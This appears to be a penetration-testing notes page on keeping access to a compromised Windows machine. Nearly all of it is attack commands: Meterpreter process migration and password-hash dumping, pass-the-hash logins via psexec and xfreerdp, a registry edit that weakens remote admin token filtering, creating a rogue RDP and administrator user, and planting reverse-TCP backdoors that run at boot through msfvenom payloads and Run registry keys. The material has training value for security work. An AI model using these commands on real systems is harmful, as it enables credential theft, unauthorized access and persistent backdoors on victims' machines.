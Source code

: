 # k - Persistence

Persistence ensures we will be able to reconnect to the compromised machine any time we llike even if the machine is rebooted or patched. To do so, we can try to gather credentials to access remote services such as RDP, SSH, VNC, VPN, create backdoors, new users, edit current services or install new vulnerabilities on the Victim.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# asuming we already gained NT AUTHORITY on the victim system.
# 1st thing to do is to make the current session stable, ie by migrating to a more stable process.
meterpreter > ps # list all running prrocesses.
meterpreter > getpid # displays our current running process ID.
meterpreter > migrate <PID> # migrate to either svchost.exe or explorer.exe.

# 2nd thing is to retrieve hashes.
meterpreter > hashdump # dumps all hashes.
# or use another module to do this...
meterpreter > run post/windows/gather/smart_hashdump # dumps all hashes.

# we can try the pass-the-hash method to login.
msf > use exploit/windows/smb/psexec
msf > set RHOST victim ip
msf > set SMBUSER <username>
msf > set SMBPASS <paste the hash>
msf > run # sometime login will fail because we don't have access to administrative shares, since we already have NT AUTHORITY, we just need to set a registry entry and the module should work.

# enter the cmd:
reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFIlterPolicy -t REG_DWORD -d 1

# copy and pase into the Meterpreter session.
# the module should work now, but if the user changes his/her password we loose our access.

# 3rd thing is we can create a new user and enable RDP if not enabled.
# check if RDP is enabled or not, in kali terminal:
xfreerdp /v:192.168.0.11 # if no response, then RDP is not enabled.

meterpreter > run getgui # displays help menu.
meterpreter > run -e -u atk -p atk # enable rdp and create new user.

# check again.
xfreerdp /v:192.168.0.11 /u:atk /p:atk # login with RDP.

# Pass the NTLM hash attack using xfreerdp
# if we obtain the NTLM hash, we can use it to login RDP using xfreerdp:
xfreerdp /u:admin /d:domain_name /pth:<ntlm_hash> /v:$ip

# 4th
# installing a Backdoor on the target.
msf > use exploit/windows/local/persistence
msf >  set SESSION
msf > set STARTUP SYSTEM # since we have system privs.
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST, LPORT 80 
msf > run 
# anytime we want to connect back to this machine, we just set up a listener with same parameters passed (use multi/handler).
# Note this persistence will continue even after the victim pc is rebooted.
# or you can do this through meterpreter
meterpreter > run persistence -A -X -i 5 -p 8080 -r $ip # creates a backdoor, uploads it to victim, and set the registry keys to start it at boot.

# 5th 
# Mannual Persistence on the victim machine.
# a 
# Create the payload with msfvenom.
msfvenom -p windows/meterpreter/reverse_tcp -f vbs ......................
# upload to victim.
meterpreter > upload exploit.exe C:\Windows
# edit the registry keys
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d "C:\Windows\exploit.exe" -v exploit.exe
```
{% endcode %}

### Create new user

Another way to establish persistence is to create a new user and add to the administrator group.

```
cmd> net user hacker /add # add new user hacker.
cmd> net localgroup "Administrators" hacker /add # add new user to local admin group.
```
